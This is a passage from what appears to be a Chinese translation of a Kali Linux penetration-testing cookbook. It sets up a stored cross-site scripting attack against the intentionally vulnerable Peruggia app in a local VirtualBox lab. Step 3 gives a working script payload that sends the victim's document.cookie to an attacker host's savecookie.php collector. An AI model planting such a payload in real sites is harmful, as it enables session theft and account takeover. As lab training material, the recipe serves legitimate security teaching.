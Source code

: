 这个 PHP 脚本会收集由 XSS 发送的所有 cookie。为了确保它能工作，访问`http://127.0.0.1/savecookie.php?cookie=test`，并且检查`/tmp/cookie_data.txt`的内容：

```
cat /tmp/cookie_data.txt 
```

如果它显式了`test`单词，就能生效。下一步就是了解 Kali 主机在 VirtualBox 主机网络中的地址，执行：

```
ifconfig
```

对于这本书，Kali 主机 的`vboxnet0`接口 IP 为 192.168.56.1 。

### 操作步骤

1.  我们在这个秘籍中会使用两个不同的浏览器。OWASP Mantra 是攻击者的浏览器，Iceweasel 是受害者的浏览器。在攻击者的浏览器中，访问`http://192.168.56.102/peruggia/`。

2.  让我们给页面的图片添加一条评论，点击`Comment on this picture`。

    ![](../img/a3d10229822bc5b16df92d00a83a7cc3.png)

3.  在文本框中输入下列代码：

    ```
    <script> var xmlHttp = new XMLHttpRequest(); 
        xmlHttp.open( "GET", "http://192.168.56.1/savecookie.php?cookie=" + document.cookie, true ); 
        xmlHttp.send( null ); </script>
    ```

4.  点击`Post`。

5.  页面会执行我们的脚本，即使我们看不见任何改动。检查Cookie 文件的内容来查看结果。在我们的 Kali 主机上，打开终端并执行：

    ```
    cat /tmp/cookie_data.txt 
    ```

    ![](../img/735a6612017414017e6300b879a82e00.png)

    文件中会出现新的条目。

6.  现在，在受害者浏览器中访问`http://192.168.56.102/peruggia/`。

7.  点击`Login`。

8.  输入`admin`作为用户名和密码，并点击`Login`。
